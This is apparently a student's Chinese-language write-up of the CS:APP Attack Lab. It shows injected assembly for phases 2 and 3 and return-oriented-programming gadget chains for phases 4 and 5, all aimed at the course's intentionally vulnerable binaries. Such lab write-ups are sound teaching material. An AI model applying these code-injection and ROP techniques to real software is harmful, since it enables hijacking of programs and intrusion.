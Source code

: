 做不到向大佬那样一串三呜呜呜orz

pwntools问了丛丛佬才知道无法读回显，为了能看到回显我就用pwntools写一个payload然后存进txt文件了

ctarget和rtarget的第二第三关首先要构造出汇编语句然后用objdump -d来看汇编指令对应的字节序列

### phase2

```
汇编语句为
mov $0x59b997fa,%rdi
push $0x4017ec       //touch2的地址
retq
```

### phase3

可以看到touch3在一开头就申请地址了，所以一定会覆盖掉原先的栈地址，要把字符串放在ret后面才不会覆盖，这里还有一个点就是比较的是字符串，所以要用ascii码(掉坑好久)

```
汇编语句为
mov $0x5561dca8,%rdi   //字符串地址
push $0x4018fa         //touch3的地址
ret
```

### phase4

Rop

寻找带有retq的可以利用的字节码，然后通过地址跳转调用

```
汇编代码应为
movq $0x59b997fa,%rdi
pushq $0x4017ec
ret
```

但是没有这样的汇编代码0.0，所以必须得改一下，将cookie存在栈中，将这个地址赋值给rdi寄存器，等到执行touch2的时候就会读取cookie了，也就过了。

所以汇编代码改成

```
pop %rax
ret
cookie
mov %rax,%rdi
ret
```



### phase5

找了好久or2...最后看了看网上给的思路，发现自己实在是太菜了，精心构造栈空间就可以了

```
汇编代码应改为
movq %rsp,%rax
ret
add 0x37,%al
ret
movq %rax,%rdi
ret
```

